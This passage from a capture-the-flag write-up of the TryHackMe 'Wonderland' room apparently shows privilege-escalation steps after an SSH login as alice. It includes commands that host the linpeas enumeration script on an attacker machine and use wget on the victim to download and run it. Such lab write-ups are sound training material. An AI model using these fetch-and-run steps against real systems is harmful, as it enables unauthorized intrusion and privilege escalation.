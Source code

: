 ![Alice SSH shell and sudo](/assets/images/thm_wonderland/thm_wonderland_alice_1.jpg)

It appears that the user **alice** can run the following python file as the **rabbit** user which is not standard.
```
/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Host and download linpeas.sh enumeration script onto the target system in order to quickly enumerate possible other vectors for privilege escalation.

```
# On the attacking system start a python web server to host your linpeas script.
sudo python3 -m http.server 80

# On the victim system download the linpeas script with wget
wget http://<attacking_ip_address>/linpeas.sh

# Set execute permissions
chmod +x linpeas.sh

# Run linpeas with all (-a) checks and save to a file for further analysis for later if needed using tee command.
./linpeas.sh -a | tee linpeas_results.txt
```

![Linpeas capabilities detection](/assets/images/thm_wonderland/thm_wonderland_linpeas_1.jpg)
